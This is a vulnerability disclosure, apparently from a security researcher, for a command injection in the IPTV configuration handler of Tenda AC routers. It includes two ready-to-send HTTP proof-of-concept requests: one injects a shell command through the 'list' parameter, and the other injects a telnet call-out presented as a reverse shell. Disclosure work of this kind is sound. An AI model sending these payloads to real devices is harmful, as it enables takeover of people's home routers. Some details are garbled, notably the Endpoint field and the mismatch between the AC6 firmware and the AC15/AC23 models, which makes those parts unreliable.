




# Tenda AC Series Routers Command Injection in formSetIptv

## Overview
Tenda AC Series Routers (e.g., AC15, AC23) are consumer-grade wireless routers supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.



## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: `- **Website**: [https://www.tenda.com.cn/`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.



## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```http
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```


### PoC 2: Reverse shell
```POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```

